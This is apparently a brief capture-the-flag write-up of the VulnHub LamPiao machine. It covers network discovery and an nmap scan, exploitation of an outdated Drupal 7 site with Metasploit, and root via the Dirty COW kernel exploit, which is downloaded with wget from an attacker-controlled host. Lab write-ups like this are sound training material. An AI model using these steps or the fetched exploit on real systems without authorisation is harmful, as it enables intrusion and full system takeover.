 ```yaml
---
title: WRITE-UP LamPiao
date: 2024-08-05 01:01:01 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```

# Write-Up Lam_Piao

## 1. Enumeration
i used netdicover to see where is my lab

```terminal
sudo netdiscover
```
![alt text](/assets/img/lampiao/lampiao_netdiscover.png)
ip: ```192.168.100.21```

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.100.21
```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s

![alt text](/assets/img/lampiao/lampiao_nmap.png)

## 2. Post Exploitation
i check web using drupal7 outdate i decided exploit using ```msfconsole```
![alt text](/assets/img/lampiao/lampiao_web.png)


## 3. Privilage Escalation
after inside i using 
``` uname -a ```
and see lab using linux kernel 4.4.0-31
so i decide using dirtycow

```
wget http://myiplab/40847.cpp
```
![alt text](/assets/img/lampiao/lampiao_root.png)

complie and get the root :# simple lab GG
